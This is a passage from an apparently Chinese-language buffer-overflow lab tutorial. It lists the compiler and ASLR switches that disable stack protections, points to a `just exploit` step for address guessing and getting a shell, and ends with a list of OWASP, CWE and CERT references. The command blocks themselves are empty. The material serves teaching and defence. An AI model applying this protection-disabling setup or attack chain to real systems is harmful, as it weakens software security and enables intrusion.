要使这条特定攻击链成立, 需要把靶程序编译选项调整为 `-O0 -fno-stack-protector -no-pie -z execstack`, 并在演示命令中使用 `setarch -R`. 这些开关分别影响代码布局、Canary、PIE、栈执行权限和 ASLR. 它们是为了隔离观察单一机制而关闭的防御, 不是现实系统的推荐配置. `defense.c` 展示了以目标容量为边界的写法; `canary_probe.c` 则演示 Canary 如何在函数返回前发现栈内容被破坏.

#### 攻击实施

留意`Justfile`中的命令.

构建后使用 `just exploit` 执行地址自动猜解:





获取地址偏移后可以使用猜解到的地址或偏移获取交互式shell:





更多关于演示参数的说明详见实验框架[源码](https://github.com/virtualguard101/vglab/tree/main/sec/bufoverflow).


[^bof-overview]: [Buffer Overflow | OWASP](https://community.owasp.org/vulnerabilities/Buffer_Overflow)

[^bof-attack]: [Buffer Overflow Attack | OWASP](https://community.owasp.org/attacks/Buffer_overflow_attack)

[^cwe-121]: [CWE-121: Stack-based Buffer Overflow | MITRE](https://cwe.mitre.org/data/definitions/121.html)

[^cwe-122]: [CWE-122: Heap-based Buffer Overflow | MITRE](https://cwe.mitre.org/data/definitions/122.html)

[^cwe-193]: [CWE-193: Off-by-one Error | MITRE](https://cwe.mitre.org/data/definitions/193.html)

[^cwe-120]: [CWE-120: Buffer Copy without Checking Size of Input ('Classic Buffer Overflow') | MITRE](https://cwe.mitre.org/data/definitions/120.html)

[^posix-signals]: [POSIX signals](https://dsa.cs.tsinghua.edu.cn/oj/static/unix_signal.html)

[^cwe-131]: [CWE-131: Incorrect Calculation of Buffer Size | MITRE](https://cwe.mitre.org/data/definitions/131.html)

[^cwe-242]: [CWE-242: Use of Inherently Dangerous Function | MITRE](https://cwe.mitre.org/data/definitions/242.html)

[^cwe-787]: [CWE-787: Out-of-bounds Write | MITRE](https://cwe.mitre.org/data/definitions/787.html)

[^str31-c]: [STR31-C: Guarantee that storage for strings has sufficient space for character data and the null terminator | SEI CERT C](https://cmu-sei.github.io/secure-coding-standards/sei-cert-c-coding-standard/rules/characters-and-strings-str/str31-c/)
